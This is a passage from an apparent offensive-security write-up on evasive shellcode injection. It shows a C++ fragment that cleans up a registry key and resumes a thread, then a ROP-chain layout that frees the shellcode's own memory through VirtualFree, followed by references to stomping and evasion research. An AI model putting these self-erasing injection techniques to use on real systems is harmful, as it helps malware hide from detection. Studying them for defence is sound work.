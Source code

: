 ```cpp
    RegCloseKeyFunc(hKey);
    RegDeleteKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey);

    // At this point, we can resume the thread which will deallocate this shellcode from memory    
    // And return
#ifdef RESUME_THREAD
    if (hThread != NULL) {
        ResumeThreadFunc(hThread);
    }
#endif
    return 0;
}
```

###### Shellcode 4 - Freeing the allocated buffer

As a final piece for our shellcode, we will need to free the RX memory section we allocated to store
the main logic code. The main problem of this task is that we need to free the memory we are currently
executing, which is, in layman terms, impossible using conventional ways.

To solve this problem, we will use a ROP chain. As we need to inject it as shellcode, though, we will
need to dynamically resolve the gadgets we need, and we will also need to "JIT compile" the shellcode.

To do that, we'll need a few things:

* a ROP chain "structure" 
* a general injector to build the ROP in memory
* a target DLL (or more than one) to hunt gadgets within

For the main ROP structure, we would simply need to set up a chain to put the relevant arguments in place
and then return to `VirtualFree`. Seeing the Microsoft documentation, the function prototype is:

```cpp
BOOL VirtualFree(
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);
```

Meaning that we have to set the address in RCX, the size in RDX, and the free type in R8. 
We already have in memory the address of the section we need to free, the other two parameters are fixed
and needs to be 0 and 0x8000 (MEM_RELEASE), respectively.

So, the chain would be something like the following:

```
<<POP RCX; RET;> GADGET>
<<RX-SECTION-ADDRESS> REVERSED>
<<POP RDX; RET;> GADGET>
\x00\x00\x00\x00\x00\x00\x00\x00
<<POP R8; RET;> GADGET>
\x00\x00\x00\x00\x08\x00\x00\x00
<<VirtualFree> ADDRESS-OF>
```


[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/
